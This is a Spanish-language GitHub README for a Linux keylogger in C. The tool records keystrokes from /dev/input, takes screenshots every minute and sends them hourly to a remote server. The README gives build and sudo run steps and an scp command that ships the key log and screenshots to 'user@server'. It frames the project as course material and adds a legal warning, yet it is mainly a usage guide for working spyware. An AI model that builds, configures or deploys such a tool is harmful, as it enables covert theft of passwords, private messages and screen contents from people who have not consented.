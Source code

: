 # Keylogger + ScreenShots

Keylogger con función de capturas de pantalla y envio de datos a un servidor configurable **LINUX**.

# ⚠️ ADVERTENCIA

Este proyecto fue desarrollado **exclusivamente con fines educacionales** como parte de un curso de seguridad informática. **No debe ser utilizado en ningún otro contexto ni con intenciones maliciosas.**

**Aviso Legal:**

El uso de keyloggers esta estrictamente prohibido en diversos países si no se cuenta con el consentimiento explícito del usuario final. El monitoreo o captura de las actividades de un usuario sin su autorización es una violación grave de la privacidad y puede conllevar sanciones legales.

Este código **no debe ser utilizado fuera del entorno educacional ni aplicado a sistemas en producción o dispositivos ajenos sin autorización y consentimiento explicito.**
**El autor no se hace responsable por el uso indebido de este código.** Cualquier intento de utilizar este proyecto para propósitos distintos a los estipulados en este repositorio es **bajo responsabilidad del usuario.**

# Requisitos:

_Nota: La distribución usada y la de este tutorial es para sistemas basados en Debian._
_El código del ejemplo fue probado en un sistema con Parrot por lo que puede variar dependiendo del sistema utilizado._

Es necesario contar con lo siguiente para poder ejecutar y/o compilar el programa:

- **Compilador de C (en este caso gcc).**
- **Libreria scrot (para captura de pantalla).**

```bash
  sudo apt-get install scrot
```

- **Libreria openssh-client (para el envio de datos a servidor local).**

```bash
  sudo apt-get install openssh-client
```

<!-- - **Librerias evdev (para trabajar con evdev).**

```bash
  sudo apt-get install libevdev-dev
``` -->

**Nota:** Además, se utilizaron otras librerias que estan preinstaladas en entornos linux, en caso no presentar errores de librerias, aqui se encuentra un listado con todas las que se utilizaron.

```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <linux/input.h>
  #include <linux/input-event-codes.h>
  #include <pthread.h>
  #include <time.h>
```

# Instrucciones de uso:

Clonar este repositorio con ayuda del comando:

```c
  git clone https://github.com/NightMare070/keylogger_linux
```

Dentro de keylogger.c configurar las rutas de acuerdo a donde se requieran:

```c
  //Por defecto se crean en el mismo directorio donde
  //se encuentra el ejecutable

  // Ruta del archivo que registra las teclas
  logger_file = fopen("keylogger.txt", "a");
  //Ruta de la carpeta que contiene las imagenes
  snprintf(filename, sizeof(filename), "screenshot_%04d-%02d-%02d_%02d-%02d-%02d.png",
```

Dentro de keylogger.c en la función **_transfer_files_** modificar la variable de acuerdo a tu servidor:

```c
  //Variable de ruta
  snprintf(command, sizeof(command), "scp keylogger.txt screenshot_*.png user@server:/path/to/destination/");
```

Una vez teniendo el archivo **keylogger.c** configurado ejecutar el siguiente comando para compilarlo:

```bash
  gcc -o keylogger keylogger.c -pthread
```

y despues ejecutar de la siguiente manera:

```bash
  sudo ./keylogger
```

Y automaticamente despues de ejecutar, se  creara un TXT en la ruta del ejecutable **keylogger** que empezará a registrar las teclas que vamos pulsando además de tomar capturas de pantalla **cada minuto** y enviarlas a un servidor cada hora.

# Supuestos del programa:

## Sistema Operativo:

1. El programa está diseñado para ejecutarse en una distribución de Linux.

## Permisos de Usuario:

1. Se asume que el programa se ejecuta con los permisos necesarios para acceder a los dispositivos de entrada del teclado **(/dev/input/event3)** y que tiene permisos de escritura en el directorio donde se almacenarán los registros y capturas de pantalla.

## Dependencias Instaladas:

1. **libssh2**  para manejar las conexiones SSH.

2. **scrot** para tomar capturas de pantalla.

3. **pthread** para manejar la concurrencia (aunque pthread.h está preinstalado en la mayoría de los sistemas Linux, es necesario asegurarse de que esté disponible).

## Configuración SSH:

1. Se asume que las credenciales de acceso SSH al servidor remoto están configuradas correctamente, ya sea mediante autenticación por clave o usuario/contraseña, y que el servidor remoto está accesible.

## Conexión a Internet:

1. Se asume que la máquina en la que se ejecuta el programa tiene conexión a Internet para poder realizar el envío de los archivos al servidor remoto.

## Directorio de Trabajo:

1. Se asume que el directorio donde se almacenan las capturas de pantalla y los registros de teclas tiene suficiente espacio en disco.

# Casos de uso:

El programa funciona en forma de **3 hilos**, **1 para registrar las teclas**, **1 para tomar las screenshots** y **otro para enviar la información al servidor.** Por lo que técnicamente funcionan de forma independiente y no dependen uno del otro. Sin embargo si no se encuentra el TXT (en un caso hipotético), el programa no tendrá nada para enviar al servidor y lo mismo con las imagenes.

## Hilo principal (main):

| Paso | Actor | Sistema                                    | Si falla                           |
| ---- | ----- | ------------------------------------------ | ---------------------------------- |
| 1    |       | Crear hilos de ejecución para cada tarea   |
| 2    |       | Se crea el hilo del keylogger              | No se registrarán las teclas       |
| 3    |       | Se crea el hilo del tomador de screenshots | No se tomarán screenshots          |
| 4    |       | Se crea el hilo del envio a servidor       | No se enviarán datos a el servidor |

Entonces podemos dividir los casos de uso en 3 partes.

Además, podemos agregar un caso extra por el monitorio constante tanto de teclas, como de capturas de pantalla.

1. Registro de Teclas:

- **Descripción:** El programa captura las pulsaciones de teclas del usuario en tiempo real y las almacena en un archivo **keylog.txt**.
- **Caso de Uso:** Registrar la actividad del teclado para su posterior análisis.

2. Captura de Pantallas:

- **Descripción:** Cada minuto, el programa toma una captura de pantalla y la guarda con un nombre que incluye la fecha y hora de la captura.
- **Caso de Uso:** Monitorear la actividad visual de la pantalla para revisar lo que se muestra en intervalos regulares.

3. Envío de Datos al Servidor Remoto:

- **Descripción:** Cada hora, el programa empaqueta los archivos **keylog.txt** y las capturas de pantalla en un archivo comprimido y lo envía a un servidor remoto usando SSH.
- **Caso de Uso:** Transferir los datos recopilados a un servidor remoto para su almacenamiento o análisis.

4. Monitoreo Concurrente:

- **Descripción:** El programa ejecuta las tareas de captura de teclas, captura de pantalla y envío de datos de manera concurrente usando hilos **(pthread)**.
- **Caso de Uso:** Permitir que todas las funcionalidades se ejecuten simultáneamente sin interferencias.